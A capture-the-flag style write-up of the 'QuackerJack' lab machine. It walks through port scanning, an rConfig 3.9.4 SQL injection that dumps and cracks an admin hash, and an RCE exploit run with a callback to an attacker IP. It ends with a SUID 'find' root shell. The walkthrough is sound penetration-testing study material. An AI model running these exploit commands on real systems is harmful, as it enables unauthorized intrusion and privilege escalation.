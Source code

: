 # QuackerJack

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.233.57 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 16:48 +08
Nmap scan report for 192.168.233.57
Host is up (0.17s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8081/tcp open  blackice-icecap
```

### FTP Anonymous Fail

The FTP service does allow anonymous logins, but it just hangs:

```
$ ftp 192.168.233.57
Connected to 192.168.233.57.
220 (vsFTPd 3.0.2)
Name (192.168.233.57:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32438|).
```

Nothing much there.

### SQL Injection --> RCE

Port 8081 was hosting an `rConfig` instance:

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

This version was vulnerable to a few exploits:

```
$ searchsploit rConfig 3.9.4
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
rConfig 3.9.4 - 'search.crud.php' Remote Command Injection | php/webapps/48241.py
rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote  | php/webapps/48261.py
----------------------------------------------------------- ---------------------------------
```

The bottom one just didn't work, while the top one requires credentials to work. There a few other exploits that I found online, such as an SQL Injection here:

{% embed url="https://www.exploit-db.com/exploits/48208" %}

The above exploit was tested on Version 3.9.4, so it should work.

```
$ python3 sql.py https://192.168.233.57:8081
rconfig 3.9 - SQL Injection PoC
[+] Triggering the payloads on https://192.168.233.57:8081/commands.inc.php
[+] Extracting the current DB name :
rconfig
[+] Extracting 10 first users :
admin:1:dc40b85276a1f4d7cb35f154236aa1b2
```

The above hash is crackable on CrackStation.

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

We can then run the RCE exploit `48241.py`:

```
$ python3 48241.py https://192.168.233.57:8081 admin abgrtyu 192.168.45.161 21
```

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### Find SUID --> Root Shell

We can enumerate for SUID binaries on this machine:

```
bash-4.2$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/find
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/sudo
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

We can run `find` as the `root` user. Following GTFOBins, we just need to run this:

```
./find . -exec /bin/sh -p \; -quit
```

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Rooted!
